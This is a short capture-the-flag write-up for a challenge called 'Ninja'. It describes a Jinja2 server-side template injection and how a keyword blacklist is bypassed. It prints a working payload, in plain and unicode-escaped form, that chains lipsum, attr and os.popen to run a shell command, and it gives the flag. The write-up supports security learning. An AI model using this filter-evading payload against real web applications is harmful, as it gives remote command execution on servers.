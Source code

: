 # Ninja

Challenge's Desecription: Hey guys come checkout this website i made to test my ninja-coding skills.

# Vulnerability
First i thought This challenge will be XSS. But my one teammate told me that The challenge is SSTI jinja2 vulnerable. Thanks my mate. His discord(patrickaIi#7879)

# idea_for_solution

So we knew that is SSTI injection. By the problem is we can't inject any code. There is a blacklist. not allowed list:  _ ,config ,os, RUNCMD, base
F**k. They didn't allowed the os. This is a big problem. But can bypass this with encoding. So the problem is what encoding we need to use?. I used the unicode encoding to solve.

# Solution
I used the (lipsum) built in function of jinja2 and i used (attr) to bypass (underscores). and i used some other functions and i encode it with unicode.
So final payload is like this: {{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('cat flag.txt')|attr('read')()}}

I used this payload and GOt flag. Nice challenge.

# Payloads
original payload = lipsum|attr('__globals__'))|attr('__getitem__')('os')|attr('popen')('cat flag.txt')|attr('read')() And 
encoded payload = {{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('cat flag.txt')|attr('read')()}}

# Flag
flag{m0mmy_s33_1m_4_r34l_n1nj4}

# Sorry
I can't upload or put images here because of my laptop error. Sorry for this.
